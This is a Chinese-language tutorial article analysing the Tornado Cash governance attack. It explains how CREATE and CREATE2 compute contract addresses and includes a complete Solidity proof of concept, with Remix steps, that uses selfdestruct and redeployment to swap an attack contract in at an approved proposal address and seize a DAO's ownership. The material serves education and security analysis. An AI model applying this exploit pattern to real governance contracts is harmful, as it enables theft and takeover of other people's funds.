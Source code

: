 # Tornado 治理攻击



大概两周前（5 月 20 日），知名混币协议 Tornado Cash 遭受到治理攻击，黑客获取到了Tornado Cash的治理合约的控制权。

攻击过程是这样的： 攻击者先提交了一个“看起来正常”的提案，待提案通过之后，销毁了提案要执行的合约地址，并在该地址上重新创建了一个攻击合约。

攻击过程可以查看 SharkTeam 的  [Tornado.Cash提案攻击原理分析](https://learnblockchain.cn/article/5844 )。

这里攻击的关键是在**同一个地址上部署了不同的合约**， 这是如何实现的呢？



## 背景知识

EVM 中有两个操作码用来创建合约： `CREATE` 与 `CREATE2` 。



###  `CREATE` 操作码

 当使用 `new Token()` 使用的是  `CREATE` 操作码 ， 创建的合约地址计算函数为：

```solidity
address tokenAddr = bytes20(keccak256(senderAddress, nonce))
```

创建的合约地址是通过**创建者地址** + **创建者Nonce**（创建合约的数量）来确定的， 由于 Nonce 总是逐步递增的， 当 Nonce 增加时，创建的合约地址总是是不同的。



### `CREATE2` 操作码

当添加一个salt时 `new Token{salt: bytes32()}()` ，则使用的是  `CREATE2` 操作码 ， 创建的合约地址计算函数为： 

```solidity
 address tokenAddr = bytes20(keccak256(0xFF, senderAddress, salt, bytecode))
```

创建的合约地址是 **创建者地址** + **自定义的盐** + **要部署的智能合约的字节码**， 因此 只有相同字节码 和 使用相同的盐值，才可以部署到同一个合约地址上。





那么如何才能在同一地址如何部署不用的合约？



## 攻击手段

攻击者结合使用 `Create2` 和 `Create` 来创建合约， 如图：

![image-20230602114327923](https://img.learnblockchain.cn/pics/20230602114337.png)



> 代码参考自： https://solidity-by-example.org/hacks/deploy-different-contracts-same-address/



先用 `Create2` 部署一个合约 `Deployer` ， 在 `Deployer` 使用 Create 创建目标合约 `Proposal`（用于提案使用）。  `Deployer` 和  `Proposal` 合约中均有自毁实现（`selfdestruct`）。

在提案通过后，攻击者把  `Deployer` 和  `Proposal` 合约销毁，然后重新用相同的slat创建 `Deployer`  ，  `Deployer` 字节码不变，slat 也相同，因此会得到一个和之前相同的   `Deployer`  合约地址， 但此时   `Deployer`  合约的状态被清空了， nonce 从 0 开始，因此可以使用该 nonce 创建另一个合约`Attack`。  





## 攻击代码示例

 此代码来自：https://solidity-by-example.org/hacks/deploy-different-contracts-same-address/



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;


contract DAO {
    struct Proposal {
        address target;
        bool approved;
        bool executed;
    }

    address public owner = msg.sender;
    Proposal[] public proposals;

    function approve(address target) external {
        require(msg.sender == owner, "not authorized");

        proposals.push(Proposal({target: target, approved: true, executed: false}));
    }

    function execute(uint256 proposalId) external payable {
        Proposal storage proposal = proposals[proposalId];
        require(proposal.approved, "not approved");
        require(!proposal.executed, "executed");

        proposal.executed = true;

        (bool ok, ) = proposal.target.delegatecall(
            abi.encodeWithSignature("executeProposal()")
        );
        require(ok, "delegatecall failed");
    }
}

contract Proposal {
    event Log(string message);

    function executeProposal() external {
        emit Log("Excuted code approved by DAO");
    }

    function emergencyStop() external {
        selfdestruct(payable(address(0)));
    }
}

contract Attack {
    event Log(string message);

    address public owner;

    function executeProposal() external {
        emit Log("Excuted code not approved by DAO :)");
        // For example - set DAO's owner to attacker
        owner = msg.sender;
    }
}

contract DeployerDeployer {
    event Log(address addr);

    function deploy() external {
        bytes32 salt = keccak256(abi.encode(uint(123)));
        address addr = address(new Deployer{salt: salt}());
        emit Log(addr);
    }
}

contract Deployer {
    event Log(address addr);

    function deployProposal() external {
        address addr = address(new Proposal());
        emit Log(addr);
    }

    function deployAttack() external {
        address addr = address(new Attack());
        emit Log(addr);
    }

    function kill() external {
        selfdestruct(payable(address(0)));
    }
}

```

大家可以使用该代码自己在 Remix 中演练一下。



1. 首先部署 `DeployerDeployer` ， 调用 `DeployerDeployer.deploy()` 部署 `Deployer` ， 然后调用   `Deployer.deployProposal()`  部署  `Proposal` 。 
2. 拿到 `Proposal` 提案合约地址后， 向  DAO 发起提案。
3. 分别调用 `Deployer.kill` 和  `Proposal.emergencyStop` 销毁掉 `Deployer` 和 `Proposal`
4. 再次调用 `DeployerDeployer.deploy()` 部署 `Deployer` ， 调用 `Deployer.deployAttack()` 部署  `Attack` ，    `Attack`  将和之前的   `Proposal` 一致。
5. 执行 `DAO.execute` 时，攻击完成 获取到了 DAO 的 Owner 权限。







 



